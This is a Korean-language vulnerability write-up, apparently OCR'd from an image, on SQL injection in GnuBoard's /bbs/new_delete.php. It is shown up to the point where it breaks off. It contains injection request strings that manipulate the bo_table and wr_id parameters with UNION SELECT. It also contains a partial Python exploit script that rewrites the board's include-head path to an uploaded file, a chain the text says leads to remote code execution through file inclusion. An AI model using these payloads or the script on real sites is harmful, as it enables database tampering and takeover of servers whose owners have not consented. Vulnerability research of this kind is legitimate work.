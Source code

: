 ```php
        sql_query(" delete from $write_table where wr_id = '$comment_id' ");
        // 코멘트가 삭제되므로 해당 게시물에 대한 최근 시간을 다시 얻는다.
        $sql = " select max(wr_datetime) as wr_last from $write_table where wr_parent = '{$write['wr_parent']}' ";
        $row = sql_fetch($sql);
        // 원글의 코멘트 숫자를 감소
        sql_query(" update $write_table set wr_comment = wr_comment - 1, wr_last = '{$row['wr_last']}' where wr_id = '{$write['wr_parent']}' ");
        // 코멘트 숫자 감소
        sql_query(" update {$g5['board_table']} set bo_count_comment = bo_count_comment - 1 where bo_table = '$bo_table' ");
        // 새글 삭제
        sql_query(" delete from {$g5['board_new_table']} where bo_table = '$bo_table' and wr_id = '$comment_id' ");
    }
}
```
`/bbs/new_delete.php 104~137 line`  을 보면 `$write` 변수
`sw=move&page=1&pressed=선택내용삭제&chk_bn_id[]=0&bo_table[0]=free as a join g5_board as b #&wr_id[0]=
where 1=0 union select (생략)-- -`
이와 같은 내용의 request 를 전송하면 다음과 같은 query 가 실행된다.
`1차 query`
```php
string(51) " select * from g5_write_free as a join g5_board as b# where wr_id = '
union select .....(생략) #' "
```
이 후 select 된 데이터의 `wr_is_comment` 컬럼의 내용을 확인하여 각각의 코드를 실행하는데 이 때 해당 값이 0 과 같지 않을 경우 다음과 같은 코드를 실행한다.
`2차 query`
```php
update $write_table set wr_comment = wr_comment - 1, wr_last = '{$row['wr_last']}' where wr_id = '{$write['wr_parent']}'
```
이 때 `$write` 변수에 저장되는 데이터의 값을 union 을 통해 적절히 조작하여 `update` 이후 부분을 자유롭게 조작할 수 있다.
 (그누보드는 파일 업로드 기능을 지원하고 실제 파일명을 `g5_board_file` 이라는 테이블에 저장하기 때문에 파일을 업로드 후 Local File Inclusion 취약점을 이용하여 Remote Code Execution이 가능)
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
cookie = '2a0d2363701f23f8a75028924a3af643=MTcyLjE2LjE1LjI1NA%3D%3D; PHPSESSID=atrem9p79ans05norgqsbqkpub; ck_font_resize_rmv_class=; ck_font_resize_add_class=; e1192aefb64683cc97abb83c71057733=dGVzdA%3D%3D'
attack_url = '172.16.15.254:1234/gnu/'
url = 'http://'+ attack_url + '/bbs/new_delete.php'
bo_table = 'free as a inner join g5_board as b#'
ex_board = 'free'
file_wr_id = '2'
file_bo_table = 'free'
update = '0x'+'''
set b.bo_include_head=(select concat('../data/file/','{0}/',(select bf_file from g5_board_file where wr_id='{1}' and bo_table='{0}'))) where b.bo_table='{2}' -- -'''.format(file_bo_table,file_wr_id,ex_board).encode('hex')
print update
wr_id = '''
where 1=0 union/*asdfasdfsadfsadfsa*/select
1,2,3,{},5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122,123,124,125,126,127,128,129,130,131,132,133,134,135-- -'''.format(update)
data = {'sw':'move',
        'pressed' : '선택내용삭제',
        'chk_bn_id[]' : '0',
```